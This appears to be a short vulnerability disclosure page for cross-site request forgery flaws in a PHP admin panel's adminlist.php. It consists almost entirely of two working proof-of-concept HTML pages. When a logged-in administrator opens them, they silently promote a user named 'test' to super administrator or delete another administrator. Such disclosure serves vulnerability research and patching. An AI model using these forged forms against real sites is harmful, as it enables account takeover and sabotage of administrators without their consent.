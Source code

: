 ## CSRF
After the administrator logged in, open the following page poc：

one.html---General Management Upgraded to Super Administrator
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.108/admin/adminlist.php?do=modify" method="POST">
      <input type="hidden" name="admins" value="test" />
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="Submit" value="ä&#191;&#157;å&#173;&#152;" />
      <input type="hidden" name="action" value="modify" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
two.html---Delete an Administrator
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.108/admin/adminlist.php">
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="2" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
